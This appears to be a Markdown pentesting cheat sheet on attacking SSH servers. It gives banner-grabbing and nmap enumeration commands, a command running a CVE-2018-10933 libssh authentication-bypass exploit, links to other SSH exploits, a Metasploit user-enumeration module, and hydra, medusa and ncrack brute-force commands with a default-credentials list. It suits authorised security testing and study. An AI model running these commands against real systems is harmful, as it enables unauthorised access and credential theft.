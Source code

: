 ## SSH

### Banner Grabbing

Important to check if password authentication is enabled and software info.

`ssh -v <ip>`

## Vulnerabilities on SSH

1. libssh versions 0.6 and above have an authentication bypass vulnerability
  - CVE-2018-10933
  - python /usr/share/exploitdb/exploits/linux/remote/46307.py <ip> 22 id

2. https://www.exploit-db.com/exploits/18557 ~ Sysax 5.53 – SSH ‘Username’ Remote Buffer Overflow
3. https://www.exploit-db.com/exploits/45001 ~ OpenSSH < 6.6 SFTP – Command Execution
4. https://www.exploit-db.com/exploits/45233 ~ OpenSSH 2.3 < 7.7 – Username Enumeration
5. https://www.exploit-db.com/exploits/46516 ~ OpenSSH SCP Client – Write Arbitrary Files

### SSH Audit Tool
  **What is does:** grab banner, recognize device or software and operating system, detect compression
  
  https://github.com/arthepsy/ssh-audit
  https://github.com/jtesta/ssh-audit
  
### Nmap
  
    nmap -p22 <ip> -sC # Send default nmap scripts for SSH
    nmap -p22 <ip> -sV # Retrieve version
    nmap -p22 <ip> --script ssh2-enum-algos # Retrieve supported algorythms 
    nmap -p22 <ip> --script ssh-hostkey --script-args ssh_hostkey=full # Retrieve weak keys
    nmap -p22 <ip> --script ssh-auth-methods --script-args="ssh.user=root" # Check authentication methods

## Username Enumeration
  
In some versions of OpenSSH you can make a timing attack to enumerate users. You can use a metasploit module in order to exploit this:
  
  msf> use scanner/ssh/ssh_enumusers
  
### Brute Force Attack
  
  **Metasploit**
  
  `use auxiliary/scanner/ssh/ssh_login`
  
  **Hydra**
  
  `hydra -l <username> -P </usr/share/wordlists/password/rockyou.txt> -e s ssh://<ip>`
  `hydra -L <username-list.txt> -P </usr/share/wordlists/password/rockyou.txt> -e s ssh://<ip>`
  
  **Medusa**
  
  `medusa -h <ip> -u <username> -P </usr/share/wordlists/password/rockyou.txt> -e s -M ssh`
  `medusa -h <ip> -U <username-list.txt> -P </usr/share/wordlists/password/rockyou.txt> -e s -M ssh`
  
  **NCrack**
  
  `ncrack --user <username> -P </usr/share/wordlists/password/rockyou.txt> ssh://<ip>`
  
### Common default ssh credentials
https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt

### SSH Pentesting Guide
https://community.turgensec.com/ssh-hacking-guide/
  
### Fuzzing (advanced topic)
http://www.vegardno.net/2017/03/fuzzing-openssh-daemon-using-afl.html
  
### Good reference
https://book.hacktricks.xyz/pentesting/pentesting-ssh

